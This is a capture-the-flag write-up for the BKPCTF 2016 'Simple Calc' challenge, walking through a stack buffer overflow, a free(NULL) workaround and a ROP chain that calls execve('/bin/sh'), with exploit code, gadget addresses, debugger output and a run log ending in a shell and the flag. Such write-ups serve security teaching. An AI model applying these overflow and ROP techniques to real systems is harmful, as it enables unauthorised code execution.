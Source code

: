 ```yaml
---
layout: post
title:  "BKPCTF 2016 - Simple Calc"
date:   2016-03-07 22:51:04 +1100
categories:
post_author: hugsy
---
```


### Info ###

{% highlight bash %}
~/cur/simple_calc $ file b28b103ea5f1171553554f0127696a18c6d2dcf7
b28b103ea5f1171553554f0127696a18c6d2dcf7: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~/cur/simple_calc $ checksec.sh --file b28b103ea5f1171553554f0127696a18c6d2dcf7                                                                                              [22:30]
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   b28b103ea5f1171553554f0127696a18c6d2dcf7
{% endhighlight %}

### Vulnerability ###

`simple_calc` offered a binary that expects us to make some calculations.
It will ask for a number of calculations (say *N*) to perform and will
`malloc()` *N*x4 bytes in the heap. If we decompile with
[IDA](https://www.hex-rays.com/products/ida/), it'll look something like this:

![](https://i.imgur.com/aFaqYf6.png)

Then a loop of *N* iterations will commence,
each iteration offering to perform one of the possible arithmetic operations,
ADD/SUB/MUL/DIV, or exit. Those operations perform pretty much what you expect of them,
which take in 2 DWORD operands, and apply the function. What is worth noticing is that
both operands and result are stored in the `.bss` (therefore at predictable
addresses).

```
[...]
.bss:00000000006C4A84 add_operator_2  dd ?                    ; DATA XREF: adds+40
.bss:00000000006C4A84                                         ; adds+69 ...
.bss:00000000006C4A88 add_result      dd ?                    ; DATA XREF: adds+96
.bss:00000000006C4A88                                         ; adds+9C ...
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90                 public div_operator_1
.bss:00000000006C4A90 div_operator_1  dd ?                    ; DATA XREF: divs+13
.bss:00000000006C4A90                                         ; divs+5E ...
.bss:00000000006C4A94 div_operator_2  dd ?                    ; DATA XREF: divs+40
.bss:00000000006C4A94                                         ; divs+69 ...
.bss:00000000006C4A98 div_result      dd ?                    ; DATA XREF: divs+9B
[...]
```

By exiting, `simple_calc` performs a `memcpy()` of the malloc-ed buffer (whose
length is controlled by us) into a stack buffer (of length 0x28 bytes) located
at $rbp+40h.
![](https://i.imgur.com/0wcLH24.png)

It is then easy to spot the trivial stack buffer overflow.


### Exploitation ###

When an operation is finished, the resulting DWORD is stored inside the malloc-ed
buffer at the offset corresponding of the main loop iteration.
So the game here is to play with those (basic) arithmetic operations to
write arbitrary data in the malloc-ed buffer: for example, if we want to write
0x10001000 | 0x20002000 in our malloc-ed buffer, we would create 2 operations,
then perform:

   1. an ADD with op1=0x10000000 and op2=0x00001000
   1. an ADD with op1=0x20000000 and op2=0x00002000
   1. and so on

By calling successively the same arithmetic operation, say `ADD` (or any other),
we have a predictable way to populate the malloc-ed buffer.

To corrupt the memory we must fill the stack buffer entirely (40 bytes), so make
at least 10 operations. The stack buffer is followed (in the memory layout) by
variables, so we add 24 bytes of junk (3 QWORD), another QWORD for
overwriting the SFP, and a last to overwrite RIP.

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We execute and a SIGSEGV was well caught (as seen with
[`gef`](https://github.com/hugsy/gef)) :
![](https://i.imgur.com/rn4XSOR.png)

However, the faulty instruction is in the `free()` following the `memcpy()` and
yet not in the return from the main function.
`free()` is trying to remove the chunk pointed by the value stored in $rdi (here
0x4444444444444444). However, a quick look in the man page (`man 3 free`) and we
find our solution:

> The free() function frees the memory space pointed to by ptr,[...] If ptr is
> NULL, no operation is performed.

So let's rebuild our stack accordingly:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We try again, and we hit the SIGSEGV in the RET. Perfect, time to bypass NX.

```
Program received signal SIGSEGV, Segmentation fault.
[...]
0x40157c	 <main+505>  mov    edi,eax
0x40157e	 <main+507>  call   0x4156d0 <free>
0x401583	 <main+512>  mov    eax,0x0
0x401588	 <main+517>  leave
0x401589	 <main+518>  ret 		 ← $pc
0x40158a	 nop    WORD PTR [rax+rax*1+0x0]
0x401590	 <__libc_start_main>  push   r14
```

We want to have a shell (what else, right?) so we need all the gadgets to
syscall execve('/bin/sh', 0, 0).

Bypassing NX is not that hard, all we need are the right gadgets. We choose a
writable address, and write '/bin//sh' (we arbitrarily chose 0x6c3110 in the
`.bss`). Using [`ropgadget`](https://github.com/JonathanSalwan/ROPgadget) makes
it easier than ever:

```
0x401c87:                  # pop rsi ; ret
0x6c3110:                  # our writable address
0x44db34:                  # pop rax ; ret
0x6e69622f, 0x68732f2f,    # /bin//sh
0x470f11                   # mov qword ptr [rsi], rax ; ret
0x447233:                  # mov    rax,rsi; ret
0x479295                   # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret
```

At this stage, we have `/bin//sh` written @0x6c3110 and this address inside the
EDI register. Then we can use the gadget `0x437aa9: pop rdx ; pop rsi ; ret` to populate RSI and
RDX with 0. Because it embeds a libc, the binary is full of `syscall`
instructions, we'll use the one at 0x435675.

We now have our full chain:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars

             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # last overwritten vars
             0x44444444, 0x44444444, # sfp

             0x401c87, 0, # pop rsi ; ret
             0x6c3110,  0x0, # addr rw

             0x44db34, 0, # pop rax ; ret
             0x6e69622f, 0x68732f2f,  #  /bin//sh

             0x470f11, 0, # mov qword ptr [rsi], rax ; ret

             0x447233, 0, # mov    rax,rsi; ret
             0x479295, 0, # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret

             0x44db34, 0x0, # pop rax
             0x3b, 0, # syscall_execve

             0x437aa9, 0x0, # pop rdx ; pop rsi ; ret
             0, 0,
             0, 0,

             0x435675, 0, # syscall()
    ]
{% endhighlight %}

Run and pwn !

```bash
/cur/simple_calc $ ./simple_calc.py                                                                                                                                         [23:36]
[+] Connected to localhost:5400
[+] Running 45 calculations
[+] Iter 1: got result 0x41414141
[+] Iter 2: got result 0x41414141
[+] Iter 3: got result 0x41414141
[+] Iter 4: got result 0x41414141
[+] Iter 5: got result 0x41414141
[+] Iter 6: got result 0x41414141
[+] Iter 7: got result 0x41414141
[...]
[+] Triggering exploit
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
ls
key
simple_calc
cat key
BKPCTF{what_is_2015_minus_7547}
```

The full exploit is [here](https://gist.github.com/hugsy/88e7137466505e0402ca).
